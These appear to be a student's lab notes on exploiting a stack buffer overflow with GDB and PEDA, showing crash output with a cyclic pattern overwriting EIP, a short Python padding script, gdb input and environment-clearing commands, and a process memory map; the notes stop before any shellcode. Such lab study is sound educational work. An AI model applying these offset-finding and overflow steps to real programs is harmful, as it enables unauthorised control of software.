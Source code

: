 ```
ESP: 0xffffd480 ("Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EIP: 0x31634130 ('0Ac1')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)


##copy that value into the wiremask.eu register value field under the "find the offset" section. this will give you the EXACT offset you need to reach the instruction pointer

##basic methodology:

1. open function in peda `gdb <function>`
2. disassemble the main function `pdisass main`
3. step through the program to find which function is vulnerable to buffer overflow. RED FUNCTIONS = vulnerable
4. research the vulernable function on google to see if the function is vulnerable. "<function> vulnerable" in google, keep your search simple

 sudo apt-get install multiarch-support
 
 ##python script for buffer overflow, buff.py
 
 
```python
buff="A" * 62 #feeding the script 62 A's
eip="B" * 4 #placeholder EIP sanity check - 4 bytes in sizes
print(buff + eip)
```


CONTINUING...


``` 
run <<< $(<script>)		#insert to the input of the function - use this for INPUT functions

run $(<script>)			#insert as a parameter for the function - used for the PARAMETER functions

>> env - gdb <function<		##opens up base gsb - we do this so that when we grab memory addresses, peda's processes don't interfere
(gdb) >> show env
(gdb) >> unset env LINES
(gdb) >> unset env COLUMNS
(gdb) >> show env		#sanity check - no more environment variables should be set! NEVER SKIP THESE STEPS!
(gdb) >> run		#press enter twice
##overflow the program after running
(gdb) >> info proc map		#gets the memory addresses for the stack and heap


process 2293
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/student/security/func
	0x56556000 0x56557000     0x1000        0x0 /home/student/security/func
	0x56557000 0x56558000     0x1000     0x1000 /home/student/security/func
	0x56558000 0x5657a000    0x22000        0x0 [heap]
start >	0xf7de2000 0xf7fb4000   0x1d2000        0x0 /lib32/libc-2.27.so
	0xf7fb4000 0xf7fb5000     0x1000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb5000 0xf7fb7000     0x2000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb7000 0xf7fb8000     0x1000   0x1d4000 /lib32/libc-2.27.so
	0xf7fb8000 0xf7fbb000     0x3000        0x0 
	0xf7fcf000 0xf7fd1000     0x2000        0x0 
	0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
```